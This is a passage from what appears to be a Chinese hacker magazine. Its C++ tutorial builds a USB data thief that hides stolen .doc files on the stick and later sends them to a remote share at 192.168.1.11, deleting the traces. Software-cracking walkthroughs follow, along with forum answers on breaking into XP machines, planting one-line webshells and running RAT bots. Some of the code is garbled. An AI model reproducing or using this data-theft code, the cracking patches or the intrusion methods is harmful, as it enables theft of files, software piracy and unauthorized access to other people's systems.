以上语句使用了 FindFirstFile 和 FindNextFile 两个函数，搜索指定路径下的所有文件，其中变量 pRoad 为指定路径。在本程序中的值为“c:\\”，也就是说程序要搜索 C 盘下的所有文件。当搜索到的是 C 盘目录下的文件夹时，则调用 AddList 函数，代码如下：

```cpp
void AddList(char *list) {
    newlist = new DirList;
    strcpy(newlist->table, list);
    newlist->pNext = NULL;
    if (first == NULL) // 如果文件夹列表为空
        first = last = newlist;
    else // 如果文件夹列表不为空
    {
        last->pNext = newlist;
        last = newlist;
    }
}
```

该函数使用自定义结构 DirList，通过定义文件夹链表的指向，达到循环搜索文件夹及其子文件夹中文件的目的。

当搜索到的是 C 盘目录下的文件时，再在其中搜索后缀名为“doc”的文件。使用 FindFirstFile 和 FindNextFile 两个函数来进行循环搜索，并将找到的文件拷贝到 U 盘目录下的 11 文件夹中，代码如下：

```cpp
strcat(FileRoad, "\\");
strcat(FileRoad, "*.doc");
hFindFile = FindFirstFile(FileRoad, &FindData);
if (hFindFile != INVALID_HANDLE_VALUE)
{
    do
    {
        strcpy(FilePath, &USB);
        strcat(FilePath, ":\\11\\");
        strcpy(FilePath2, FilePath);
        strcat(FilePath, FindData.cFileName);
        CopyFile(FindedFile, FilePath2); // 把搜索到的 doc 格式的文件拷贝到 U 盘根目录下 11 文件夹中
    } while (FindNextFile(hFindFile, &FindData));
}
```

其中变量 USB 是 GetDriveType 函数返回的 U 盘的盘符，变量 FindedFile 是找到的文件的路径（即在 A 机上的路径）。

在拷贝文件之前还需有两个步骤。第一步是先要在 U 盘的根目录下建立一个名为 11 的文件夹，用来放置从 A 机拷贝过来的文件，并把文件夹的属性设置为“系统”和“隐藏”。代码如下：

```cpp
strcpy(FilePath, &USB);
strcat(FilePath, ":\\");
strcpy(FilePath2, FilePath);
strcat(FilePath2, "11");
SetFileAttributes(FilePath2, FILE_ATTRIBUTE_HIDDEN | FILE_ATTRIBUTE_SYSTEM); // 把 U 盘根目录下 11 文件夹的属性设置成系统和隐藏
```

第二步是先使用 GetDiskFreeSpaceEx 函数来判断 U 盘的剩余空间，当剩余空间为 256M 以上的时候再进行拷贝，以防止拷贝的文件过多将 U 盘空间写满，引起注意，代码如下：

```cpp
_ULARGE_INTEGER i64freebytestocaller;
_ULARGE_INTEGER i64totalbytes;
_ULARGE_INTEGER i64freebytes;
char u[MAX_PATH];
strcpy(u, &USB);
strcat(u, ":\\");
if (GetDiskFreeSpaceEx(u, &i64freebytestocaller, &i64totalbytes, &i64freebytes)) {
    i64freebytes = i64freebytes.QuadPart;
    ULONGLONG d = 256 * (1024 * 1024); // 256M
    if (i64freebytes.QuadPart > d) // 剩余空间应大于 256M 时
    {
    }
}
```

### 将 U 盘中的资料传到指定主机

该步骤是在 B 机中完成的，当同一 U 盘又在另一台接入网络的 B 机上使用时，使用 CopyFile 函数将 U 盘根目录下 11 文件夹

## 批处理编程手册 2008.06 →【快码加编】

中的文件通过网络传输给指定的主机 C。并且使用一个判断语句，当上传成功后，则删除其在 U 盘中的源文件，达到隐藏的目的，代码如下：

```c
char RemotePath[MAX_PATH];
strcpy(RemotePath, "\\\\192.168.1.11\\11\\"); // 远程主机 C 的 IP 地址为 192.168.1.11
strcat(RemotePath, fileData.cFileName);
if (CopyFile(Path2, RemotePath, 0)) { // 把 U 盘根目录下 11 文件夹内的文件拷贝到远程主机 C 共享的文件夹 11 中
    DeleteFile(FilePath2); // 如果拷贝成功，则删除该文件，达到隐藏的目的
}
```

需要在 IP 地址为 192.168.1.11 的主机 C 共享一个名为 11 的文件夹，并且把该文件夹的共享属性设置成“允许网络用户更改我的文件”。则该程序会把 U 盘根目录下 11 文件夹中的文件（从 A 机中拷贝来的）通过网络上传到刚才共享的这个目录中来了。

## 主机接入网络的判断

程序介绍到这里，各位看官可能还有一个疑问，这个程序是如何判断当前主机是否接入网络的呢？如何判断当前主机是 A 机还是 B 机的呢？本程序设计的思路分为两个步骤：第一步是看 U 盘根目录下有没有文件，没有则不处理；这一小节先讲述该目录下有没有文件的操作，如果已经有文件，则先发送已经存在的文件。第二步是判断是否接入网络，所以用 CopyFile 函数时指定主机 C 的共享网络，应用于主机 A 和 B 电脑里。此时程序的操作仅是通过 U 盘主机共享文件夹中的文件来进行。如果将 U 盘根目录下 11 文件夹中找到的文件（U 盘根目录下 11 文件夹中的文件）上传到 C 机上，之后在此过程中继续搜索新盘符中为“doc”格式的文件，将其复制到 U 盘根目录下 11 文件夹之中后再上传到 C 机中，代码如下：

```c
HANDLE fileHandle;
WIN32_FIND_DATA TempFindData;
char Path[MAX_PATH];
char TempPath[MAX_PATH];
char TempRemotePath[MAX_PATH];
char TempRemotePath1[MAX_PATH];
char TempPath1[MAX_PATH];

strcpy(Path, U盘);
strcpy(TempPath, USB);
strcpy(TempPath1, "\\\\?\\");
strcpy(TempRemotePath, "\\\\192.168.1.11\\11\\");
strcpy(TempRemotePath1, "\\\\?\\");

fileHandle = FindFirstFile(Path, &TempFindData); // 搜索 U 盘根目录下 11 文件夹内的所有文件。
if (fileHandle != INVALID_HANDLE_VALUE) {
    if (!strcmp(TempFindData.cFileName, ".") || !strcmp(TempFindData.cFileName, "..")) {

    } else {
        strcat(TempPath1, TempFindData.cFileName);
        strcat(TempRemotePath1, TempFindData.cFileName);
        if (CopyFile(TempPath1, TempRemotePath1, 0)) {
            DeleteFile(TempPath1); // 删除文件
        }
    }
}
```

由于 U 盘根目录下 11 文件夹中都是从 A 机拷贝过来的文件，不会存在子文件夹，因此以上程序没有使用之前介绍的文件夹查找法，而只是使用 FindFirstFile 和 FindNextFile 函数进行循环搜索文件。最后如图 2 所示，来概括一下本程序的流程，其中实线为 B 机的处理动作，虚线是 A 机的处理动作。


## U 盘病毒的传染性和触发性

个人感觉以上功能隐蔽性比较大，因此本程序没有模拟 U 盘病毒的传染性和破坏性。此程序运行环境为 VC++6.0 + Windows XP SP2。测试方法是在 A 机插入 U 盘的情况下，运行 MiddleThief.exe 程序，此时 A 机中所有 doc 文件就被拷贝到 U 盘中，然后将 U 盘插入 B 机中，保证 B 机与 C 机通过网络连接，并且在 C 机中共享名为 11 的文件夹，供其共享权限设置成“允许网络用户更改我的文件”，最后在 B 机中再次运行 MiddleThief.exe 程序，此时 U 盘中 A 机的资料和 B 机的 doc 文件就被拷贝到 C 机的共享文件夹中了。

## 防范措施

- 1. 在插入 U 盘之后，如发现 U 盘指示灯常亮或者电脑出现“假死”现象，或电脑速度明显下降时，应立即拔出 U 盘；
- 2. 在保存有敏感文件的电脑上使用专用 U 盘；
- 3. 及时更新杀毒软件及系统补丁；
- （作者提到的 VC 编程模拟“搬运”型 U 盘病毒的代码已经收录在光盘中）

编辑点评：又是一种又简单，通过“搬运”将文件传播出去倒是一种新思路，小编今晚好好思考来试试！

# Cracker

## 86 的故事废话

## 每月侃资源

逍遥风文章

逍遥风，看雪学院版主之一，PYG 成员，研究加解密已多年，功力深厚，《暗潮风云录》是其代表作，也最为壮观。其文作包含了 keyfile 系列、MASM32 系列、Visual Basic、Visual C++ 等系列，其文章通俗易懂，深得论坛技术编辑喜爱，是一本非常不错的电子书。

## 先脱后破再分析

### 微服视频监控直播系统

从本文你可以学习到：

- 1. ESP 定律脱壳
- 2. 程序的破解技巧和注册算法流程
- 3. 易语言注册机的编写

这是一个远程视频网络系统一例，需要视频监控直播系统 V4.0，正好有一阵子没有爆破，就拿这个来练练手吧。

### 【工具准备】

- 1. 调试软件：OllyICE
- 2. 查壳工具：Peid
- 3. 脱壳工具：LordPE_fix
- 4. 指针修复工具：Import REConstructor 1.6 Final Fix（plugin）

### 【破解分析】

首先用 Peid 查壳，发现主程序加了 ASPack 2.12 -> Alexey Solodovnikov 的壳，先将壳脱掉再分析。运行 OllyICE，载入 JK.exe，程序停在了 0060A001 处，因为 ASPack 是压缩壳，所以可以在 0060A002 处下 ESP 断点，在命令行处输入 hr ESP 并回车确认，然后 Shift+F9 运行，程序便在 0060A3B0 处断下，这时只需对栈中的值进行分析，发现 0060A002 处是一样的，这就是 ESP 定律。接着在命令行处输入 hd ESP 删除 ESP 断点，继续单步运行，此时到了 OEP，即主程序的入口。

```text
005A8001  >  60             pushad                // 载入壳
0060A002     E8 03000000    call 0060A0AA         // 在此处下
0060A30B     75 08          jnz short 0060A3BA    // 断在此
0060A30D     8B1D000000     mov eax, [..]
0060A3A7     2B8F000000     sub ...
0060A3B1     C3             ret                   // 跳向 OEP
```

走到 OEP 后，打开 LordPE_fix，选取 JK.exe 进程并 dump full，把程序保存为 dump.exe。然后，打开 Import REconstructor 1.6 Final Fix，选取 JK.exe 进程，OEP 中填入 00599858 - 00400000 = 00199858，点“自动搜索 IAT”，再点“获取输入信息”，发现输入表完整，点“修复抓取文件”修复到保存好的 dump.exe 文件，如图。


运行了一下修复后的 dumped.exe，没有问题。再用 Peid 查一下，发现程序是用 Borland Delphi 6.0 - 7.0 写的，用 Peid 的 KANAL 插件可以看到程序使用了 BASE64 和 MD5 算法。接下来，用 OllyICE 载入 dumped.exe，使用 Ultra String Reference 插件查看 ASCII 字符，在找到的 ASCII 字符中查找“注册”，可以找到如图 2 的关键处。


```text
00575C14    8B07              mov eax, [edi]
00575C16    74 12             je 00575C2A         // 关键跳转
00575C1C    0F84 1A460570     mov ...
00575C21    8B83 28040000     mov eax, [ebx+428]
00575C24    33C9              xor ecx, ecx
00575C25    8B06              mov eax, [esi]
00575C26    80B3 30560700     cmp ...
00575C2B    75 0E             jne 00575C3B
```

SHORT 00575C26 这句将修改为两个 NOP，这样就可以实现成功注册。接下来跳到 00575965 处，代码如下：

```text
0057596C    E8 FEBFFFFF       call 0057425C
00575B61    84C0              test al, al
00575963    74 44             jc short 00575A9A
00575965    BA DC95E700       mov edx, 005759DC
```

将 00575963 处的代码 NOP 掉，再次按键“注册”，发现还有“对不正确、未注册用户使用”的小时限制等作出监控，跳到 0059741C，向上查找到 00597395 处，留有一个能解除小时使用限制的跳转，代码如下：

```text
00597395    0F85 97000000     jnz 00597432
00597417    B3 7A             mov ecx, 00597A3C
0059741C    BA 407A5900       mov ecx, 005974A8
00597421    A1 5D958900       mov eax, dword ptr [59D840]
00597426    8B00              mov eax, dword ptr [eax]
0059742D    E8 80B4FFFF       call 00574888
```

其中 00597395 处是检查是否已经注册，如果未注册则来到 005973B6 处检查使用时间是否已满一小时，我们可以通过修改 00597395 处的代码，将 JNZ 修改为 JMP，就能解除程序中的小时使用限制了。继续注册，发现还有一个“未注册”在 005980BF 处，这应该是未注册时显示在视图上的“未注册”字样。跳到 0059808F 处，向上查找到 00597EE0 处，这是一个很经典的比较，代码如下：

```text
00597EE6    8078 08 00        cmp byte ptr [eax+8], 00
00597EEA    0F85 25020000     jnz 00598111
00597EEB    B2 01             mov dl, 1
005980CD    6A 06             push 6
005980D1    68 3B415900       push 00598134
005980C4    A1 5D945900       mov eax, dword ptr [59D954]
00598115    E8 FFB76EFF       call 00403914
0059811A    83C4 18           add esp, 18h
```

通过修改 00597EEA 处的 JNZ 为 JMP，使用右键菜单中的“复制到可执行文件”->“所有修改”->“全部修改”，并保存为 JKCrack.exe，重启，发现彻底解除了注册限制。文章继续分析软件注册失败的提示信息，并在输入注册码框中输入我以前的注册信息，程序所在的系统窗口中的内容也发生了变化。


图 3 关键的地方

```text
00574291    B4 F8             mov ecx, dword ptr [ebp-8]
00574294    BA A0437000       mov edx, 005743A0
00574299    4A7A-8655-...     ; 省略
005742A8    E8 E07E9FFF       call 00404A8C
```

这里将上面的关键代码进行分析，CALL 00404A8C 将“5372E915-72AA-A7C7-8655-6B1F529AD080”这个字符串与机器码进行比较，得到的结果为 1，则显示注册成功；否则就会返回到前面进行再次判断。


图 4 MD5 算法的 4 个 32 位初始变量

MD5 算法？综合分析，软件的算法其实是将“5372E915-72AA-A7C7-8655-6B1F529AD080”这个带有注册码的信息与机器号“6CDC304A-6DEB-E530-C44B-33F789C4AFA0”联系起来，再进行 MD5 算法处理，得到的 MD5 值分为五段。其中第一段取 MD5 值前 8 位，第二段取 MD5 值 9 至 12 位，第三段取 MD5 值 13-16 位，第四段取 MD5 值 17-20 位，第五段取 MD5 值 21-32 位。


图 5 易语言注册机源代码

## 艰难的传世多开

从本文你可以学习到：

- 多开游戏程序

现在游戏基本都可以多开了，盛大的破游戏就是不支持，郁闷！下面我们就一起来 Crack 它吧！

首先就是查壳，PEID 加载 woool.exe 显示 ASPack 2.12 -> Alexey Solodovnikov，如图 1。

用 ESP 定律就可以轻松脱掉，运行下看看，没出什么问题，不用修复了。再运行个看看有什么提示，如图 2。


用 OD 加载查找字符串（ASCII），定位到 0053BBCF，可以看到是 0053BBBA 跳转过来的，如图 3。

双击 0053BBBA，把 JE SHORT 0053BBC8 改成 JNE SHORT 0053BBC8，或者直接 NOP 掉也可以。下面我们来执行修改好的登录界面，OK！连开两个没问题。登录了看看，防火墙提示是否允许 woool.DAT 联网，如图 4。


从端口就可以看出是连接服务器了。登录界面只是个幌子（给传世做做广告，连选区罢了），真正起作用的就是这个 woool.DAT。不管它，直接允许联网，发现第一个登录器自动不见了。晕，我们再打开一个登录器，却出现了这个错误的提示，如图 5。


说的是应用程序错误，估计是检测到已经开了一个传世客户端了。后来我想想能不能隐藏进程，于是用 HideToolz，但是又出现了一个更严重的问题，提示与服务器连接中断。我想应该是程序运行时找不到该进程了，以为传世退出了就提示连接中断。这该怎么办呢？看能不能从 woool.DAT 入手了。我觉得奇怪的是，登录器为什么要调用一个 DAT 文件呢？估计这个 DAT 只是个幌子，或许它本身就可以运行，于是我把原名改成了 EXE，运行了下居然不要我选区就直接进入了。我输入用户名和密码进去一看服务器，才知道原来是进入登录器上默认的区。嗯，这样也可以。我再开一个的时候提示错误了，如图 6。

还是 OD 载入查找字符串（ASCII），定位到 00404296，附近就是关键跳转了，如图 7。

把 JE SHORT 004042DA 改成 JMP SHORT 004042DA 就可以了。再运行了看看，呵呵，现在就可以多开了。需要说明的是，多开的时候先要用登录器把区选好，然后再运行 DAT 目录下改好的 woool.exe，大家也去实践下吧！


> 【本文介绍的相关程序已收录在本期光盘中】

编辑点评：

文章写得不错，思路很清晰，就是要把程序多开成线程。记得以前有人搞腾讯游戏的大厅多开，一般来说，这种手法以爆破形式来进行，最简便、最快捷，而且效果也很不错，就如此文得到的效果一样，多开了。

> 【本文介绍的相关程序已收录在本期光盘中】

编辑点评：

本文思路过程详细明了，从脱壳到爆破再到算法，一气呵成。看着文章，即便没走进代码中去，通过详细介绍，也已经了解了个大概了。作者留下的题目，虽然很简单，但如果你基础未深，我还是建议你试试！


Q：入侵管理员密码为空的 XP 系统

我是新手，用流光扫描到了一台主机的管理员密码为空，用 IPC$ 连接上了，但是看不到默认共享，我想问问：还有什么其它的方法能入侵到 XP 中去啊？

A：在 Windows XP 环境下，IPC$ 管道不同于 Win2000，对空连接是没有权限的。在“管理工具”->“本地安全策略”->“计算机配置”->“Windows 设置”->“安全选项”中有这样一项：“网络访问：本地帐户的共享和安全模式”。这项设置用于确定如何对本地帐户的网络登录进行身份验证。如果将该设置指定为“经典”，则使用本地帐户凭据的网络登录用那些凭据进行身份验证；如果将该设置指定为“仅来宾”，则使用本地帐户的网络登录将被自动映射到来宾。“来宾”账户，即所有用户都被作为来宾同等对待。Windows XP 系统默认设置是“仅来宾”，现在我们可以理解为什么用正确的超级用户身份和密码与 Windows XP 系统建立 IPC$ 连接时，系统采用默认设置，映射磁盘就不成功的原因了，这操作必须是 Administrator 权限。

既然管理员用户名密码为空，可以尝试运行 `mstsc` 登录远程终端，大多数家庭系统都是默认开启远程终端。不过在 Windows XP 下，由于单工作站模式会导致踢掉当前用户，所以可以挑一个对方挂机的时间登录。

以上方法不成功的话，只有考虑使用远程溢出漏洞或其他方法了，至少 Windows XP 系统是相对较安全的。附言：提肉鸡时与其扫描空口令和利用漏洞，不如采取程序捆绑发布或者入侵网站挂马。

原文链接：http://www.nohack.cn/pbs/thread-77541-1-1.html

**Q：** 请问各位大侠，一句话木马怎么用？请说清楚！谢谢！

**A：** 对于一句话木马的解释及其原理，可以详见下面的页面介绍：http://hi.baidu.com/easydownload/blog/item/6ae5ba352769468ba71e120b.html。至于一句话木马的使用，一般就是针对采用 asp 或者 asa 扩展的 access 系统，利用后台管理功能把一句话插到数据库中进行扩展连接。利用面较广的应用是对于 MSSQL 的注入点，在 dbo 权限下找到 Web 路径和库名，利用差异备份或者 log 备份通过临时表写入一句话并 back up 为脚本文件，从而获得 WebShell 地址。同样，你也可以把一句话木马插入网站的某个活动脚本中，这样可以隐藏你的 Shell 地址，不易被管理员发现。最好是插入到常更新的脚本页面，例如 counter 统计的 config 文件中，也可以通过提权修改文件属性。其实本人通常就把一句话木马直接传到 Web 目录当 WebShell 用。因为一句话木马的隐蔽性和不被查杀的优势，使用起来的灵活面也是很广泛的。

原文链接：http://www.nohack.cn/pbs/thread-77537-1-1.html

**Q：** 如果一个网站的上传权限关了，怎么拿 WebShell 啊？顺便问下管理员的账号密码怎么会啊？

**A：** 关于类似问题已在论坛泛滥成灾，其根本就是进入了一个入侵的误区，认为不能上传就封死了获取 WebShell 的途径。我总结几个常见方法（仅是个人经验，存在不足请谅解）：

- 1. 暴库或者根据已知的站点系统，在确认数据库为 asp 或者 asa 的情况下，把一句话木马写入到数据库中进行连接，前提是知道数据库路径。
- 2. MSSQL 的注入点，如果是 SA 那就用最省事的办法；如果是 db_owner 权限，利用列目录扩展挖掘 Web 路径后，通过 log 备份来获取 WebShell。
- 3. 深度利用后台功能：dvbbs 6.0 的注册认证文件即为 asp 扩展，直接在后台写入一句话；后期的版本可以在风格模板数据库或者博客数据库中插入一句话木马进行数据库备份或恢复。当然，很多系统如果有数据库操作功能是可以进行插马的，discuz 就是在后台编辑模板生成 Shell，bbsxp 等也可以在后台的文件目录列举页面进行 `..\` 的目录跳转，获取网站的基本信息；从 eWeb 或者其他管理上传页入手。变通的方法很多，关键是如何利用后台管理。
- 4. 对比较流行的跨站跨出 WebShell，前提是对脚本有很深刻的理解。

总之以上不可能一面俱全，没事抱着《黑客手册》或者《精通脚本黑客》看看，就可以掌握很多方法了。至于你顺便问到的问题，拿 Shell 的基本前提就是尽量获取管理员密码，在前台就想直接上传个 WebShell，几乎是不可能的。获取管理员密码的方法也就是默认密码、默认数据库、注入、暴力猜解等，最有含量的恐怕就是社会工程学了。

原文链接：http://www.nohack.cn/pbs/thread-77516-1-2.html

**Q：** 我从 Google 上看到在网吧利用灰鸽子不能上线，难道真的一点办法都没吗？

**A：** 当然不是。真的没有一点办法，最直接的就是进路由管理做端口映射，但恐怕是在做梦吧。我是基本上不去网吧上网的，具体搜索到两个利用率较广且成功率较高的方法，关键词为：flashmydemo 和上线通，可以通过百度查下具体的使用方法。个人认为最好是找台稳定的公网肉鸡做端口映射，尽量使用服务器肉鸡，可以避免断线及网络稳定性带来的麻烦。

原文链接：http://www.nohack.cn/bbs/thread-77512-1-2.html

**Q：** 对于这样子的后台怎么拿 WebShell 啊？后台是 `http://www.xxx.com/xx_admin/Admin_Main.asp`，账号 admin，密码 625920。备份数据库直接提示备份失败了，压缩也不行，求助啊！还有，这个后台是动网的吧？麻烦告知！

**A：** 进入此后台大致分析了下，的确不好利用，后台备份功能已经是鸡肋！而令人稍感安慰的 eWebEditor 却也被删除了后台和相关数据库等，导致无法利用。用注入工具检测为 access 数据库，所以在后台卡壳就基本没有办法。该网站的 BBS 系统的确不常见，起初我以为是 BBSXP，但是实际为修改 BBSXP 的其他论坛系统。通过导航的简约版页面得知论坛系统为“TEAM 1.0.4 - ACC 版”，即是 team 论坛，版本比较老，但是由于论坛使用面小而找不到公布的漏洞，建议读者自己挖掘该系统漏洞。附带说明：为避免对号入座产生不良影响，略去真实地址。

原文链接：http://www.nohack.cn/bbs/thread-77399-1-4.html

**Q：** CMD 求救——我的 CMD 一打开，一秒钟就自己关闭了！求救啊！

**A：** 出现这种情况十有八九是中了病毒！病毒为保护自身而禁止运行 cmd，解决的根本方法就是使用杀毒软件进行查杀，顺便对启动项和进程进行排查。如果要临时执行 cmd 的话，可以使用命令 `cmd /k`，或者将 `%windir%\system32` 下的 `cmd` 改名，也可以使用 `wscript.shell` 执行命令。

原文链接：http://www.nohack.cn/bbs/thread-77430-1-4.html